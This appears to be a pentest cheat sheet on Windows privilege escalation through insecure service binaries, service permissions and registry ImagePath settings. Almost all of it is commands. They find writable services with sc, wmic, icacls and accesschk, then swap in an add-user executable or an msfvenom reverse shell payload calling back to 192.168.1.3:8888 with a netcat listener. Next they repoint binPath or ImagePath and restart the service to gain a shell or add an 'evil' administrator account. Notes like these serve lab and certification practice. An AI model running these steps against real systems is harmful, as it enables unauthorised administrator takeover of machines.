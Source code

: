 ## Insecure Service File Permissions
```
sc queryex type=service (to check state of service)  

Get-WmiObject win32_service | Select-Object Name,State,PathName | Where-Object{$_.State -like 'Running'} 

icacls "filepath" (to check if it is writable)  

Compile adduser.c and file transfer add user.exe to shell 
Replace service file with adduser.exe using copy command.  
Restart the service 
or 
restart the server - net stop servicename 
**or**
net restart servicename 
**or**
shutdown /r /t 0  
Get shell again and run net localgroup Administrators we can see our user evil there
```
Note : Start-Service servicename
## Insecure Service Permissions
For Safety move original service file as .bak and replace our revshell.exe as that service file.
```
wmic service get name,startname,pathname (enumerating services, Look for services inside ProgramFiles)

sc qc "servicename"(Check for Local System and start type for DEMAND START)

accesschk.exe /accepteula -uwcqv user servicename (using accesschk to identify SERVICE ALL ACCESS or SERVICE CHANGE CONFIG permissions)

msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f exe > shell.exe

FileTransfer
sc config servicename binPath="C:\Users\Public\shell.exe"
nc -lvnp port
net start servicename
```

## Weak Registry Permissions
Look for reg path in winpeas result
```
sc qc "servicename"  

accesschk.exe /accepteula -uvwqk "regpath" (use -d if it gives no o/p)  

Is it writable for NT Authority/ Interactive?  
reg add 'regpath' /v ImagePath /t REG_EXPAND_SZ /d pathofreverse.exe /f

listener on kali
net start servicename
```
**Note** : sc config servicename start= auto
